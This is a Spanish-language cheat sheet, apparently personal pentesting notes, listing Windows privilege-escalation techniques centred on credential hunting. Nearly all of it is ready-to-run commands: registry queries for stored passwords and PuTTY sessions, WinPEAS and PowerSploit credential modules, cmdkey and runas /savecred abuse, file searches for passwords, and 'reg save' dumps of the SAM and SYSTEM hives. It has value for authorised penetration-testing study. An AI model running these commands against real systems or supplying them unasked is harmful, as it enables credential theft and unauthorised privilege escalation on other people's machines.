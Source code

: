 # Formas tipicas de escalar privilegios para Windows

- WinPEAS
- PowerSploit
- Save Creds
- Sam y System
- Archivos de Configuracion
- Registro

# - Registro
```powershell
reg query HKLM /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
Para contraseñas en Putty
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
# WinPEAS
```powershell
winPEAS.exe quiet filesinfo userinfo
winPEAS.exe quiet windowscreds
winPEAS.exe quiet searchfast filesinfo
```

# PowerSploit
Estos son sus modulos a probar
```powershell
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
``` 
# Credenciales Guardadas
```cmd
cmdkey /list
``` 
Runas --> en Caso de Tener credenciales guardadas de otro usuario podriamos ejecutar acciones o binarios
```powershell
runas /savecred /user:<usuario> <ejecutable> 
```

# Archivos de Configuracion
Buscando por archivos que contengan la palabra pass o extension .config
```cmd
dir /s *pass* == *.config
```
Buscando por archivos que contengan la palabra password y acaben por la extension .xml
```cmd
findstr /si password *.xml *.ini
```
- Modulo de Metasploit para buscar por password recursivamente
post/windows/gather/enum_unattend

# Sam y System
Los archivos SAM y SYSTEM, se almacenan en el directorio:
```cmd
C:\Windows\System32\config
```
Buscando por Backups de Sam y System
```cmd
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```
Si los hubiesemos encontrado o tuviesemos privilegios para realizar una copia de los mismos
```
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```